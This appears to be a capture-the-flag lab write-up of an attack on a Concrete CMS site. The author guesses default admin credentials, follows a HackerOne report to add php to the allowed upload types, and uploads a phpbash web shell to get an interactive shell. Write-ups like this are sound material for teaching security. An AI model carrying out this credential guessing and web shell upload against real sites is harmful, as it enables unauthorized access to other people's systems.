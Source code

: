 trying 
```
admin
admin
```


```
Unable to complete action: your IP address has been banned. Please contact the administrator of this site for more information.
```

guess they were not kidding, rebooted the machine and tried more credentials

```
admin
password
```

http://10.10.210.78:85/app/castle/index.php/dashboard/welcome

![[admin dash.png]]


https://vulners.com/hackerone/H1:768322

following the vuln report, we navigate to allowed file types

```
http://10.10.210.78:85/app/castle/index.php/dashboard/system/files/filetypes
```

we add php and save, bringin the allowed files types to be 

```
flv, jpg, gif, jpeg, ico, docx, xla, png, psd, swf, doc, txt, xls, xlsx, csv, pdf, tiff, rtf, m4a, mov, wmv, mpeg, mpg, wav, 3gp, avi, m4v, mp4, mp3, qt, ppt, pptx, kml, xml, svg, webm, ogg, ogv, php
```

now we navigate to files

```
http://10.10.210.78:85/app/castle/index.php/dashboard/files/search
```

click on upload file

I am uploading phpbash

![[file upload.png]]

![[upload complete.png]]

visit the url

http://10.10.210.78:85/app/castle/application/files/6317/3227/4955/phpbash.php

we have an interactive shell

![[phpbash.png]]

